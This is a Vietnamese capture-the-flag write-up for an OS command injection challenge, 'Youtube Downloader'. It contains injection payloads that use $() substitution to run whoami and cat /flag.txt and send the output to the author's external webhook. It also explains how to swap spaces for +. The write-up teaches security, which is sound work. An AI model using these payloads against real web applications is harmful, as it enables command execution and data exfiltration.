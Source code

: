 # Command Injection

**Tên challenge:** Youtube Downloader

**Link challenge:** [Here](https://battle.cookiearena.org/skills-path/os-command-injection/challenge/youtube-downloader)

**Tác giả challenge:** DK189

**Mục tiêu challenge:** Youtube Downloader là công cụ giúp bạn tải video từ Youtube về máy tính miễn phí. Nếu hack được ứng dụng này, bạn sẽ nắm trong tay công nghệ tải video của các website Youtube Downloader trên thế giới.

Format Flag: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng nhập URL như sau:

![alt text](./images/image.png)

**B2:** Ta thử nhập url của link video youtube bất kỳ:

![alt text](./images/image-1.png)

=> Xem ra trang Web sẽ lấy URl input rồi dùng lệnh `youtube-dl` để thực thi `--get-thumbnail` của link URL và trả về thumbnail của video đó.

Sau khi mài mò thì ta tìm ra đươc cách có thể thực thi Command Injection là dùng `$()` hoặc ` `` ` để lợi dụng thực thi Command Injection.

Nhưng để kết hợp được với cách trên thì ta cần phải dùng Webhook bên ngoài của ta để ta có thể nhận output của Command khi được thực thi.

**B3:** Ta thử nhập payload `https://Webhook_cua_ta/?command=$(whoami)` rồi sau đó kiểm tra lại Webhook bên ngoài của ta:

![alt text](./images/image-2.png)

=> Vậy là ta đã thực thi được Command Injection trên Website.

Tiếp theo, ta chỉ cần dùng lệnh `$(cat+/flag.txt)` để lấy `Flag`.

<u>**Lưu ý:**</u> Do ta không thể nhập dấu `space` trong URL nên ta phải dùng dấu `+` để thay thế.